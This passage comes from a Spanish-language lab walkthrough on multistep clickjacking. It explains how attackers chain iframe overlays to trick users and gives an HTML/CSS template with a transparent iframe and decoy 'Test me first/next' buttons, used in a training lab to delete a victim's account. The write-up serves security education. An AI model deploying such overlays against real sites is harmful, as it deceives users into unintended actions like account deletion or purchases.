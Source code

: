 Y le damos a "Deliver to victim" para completar el laboratorio.

<br />

#### 2.6. Clickjacking en varios pasos.

La manipulación del atacante de las entradas a un sitio web de destino puede requerir múltiples acciones. 

Por ejemplo, un atacante podría querer engañar a un usuario para que compre algo en un sitio web minorista, por lo que los artículos deben agregarse a una cesta de la compra antes de realizar el pedido. Estas acciones pueden ser implementadas por el atacante usando múltiples divisiones o iframes. Dichos ataques requieren una precisión y cuidado considerables desde la perspectiva del atacante para que sean efectivos y sigilosos.

<br />

**Laboratorio 5: Multistep clickjacking**

Este laboratorio simula una aplicación web que contiene una protección CSRF y tiene un dialogo de confirmación que previene contra Clikjacking.

Al acceder al laboratorio y logearnos como wiener:peter e intentar borrar la cuenta podemos observar que se nos redirige a un segundo cuadoro de dialogo de forma que debemos implementar el siguiente marco iframe:

```HTML
<style>
iframe {
position:relative;
width:$width_value;
height: $height_value;
opacity: $opacity; z-index: 2;
}    
.firstClick, .secondClick {
position:absolute;
top:$top_value1;
left:$side_value1;
z-index: 1;
}    
.secondClick {
top:$top_value2;
left:$side_value2; }
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div> <iframe src="$url"></iframe>
```

Así, podemos comprobar que se trata de un código más complejo que sencillamente admite un cambio por click.

Ajustamos los parámetros para que coincida como hemos hecho en anteriores laboratorios y le damos a Deliver To Victim para terminar el mismo.



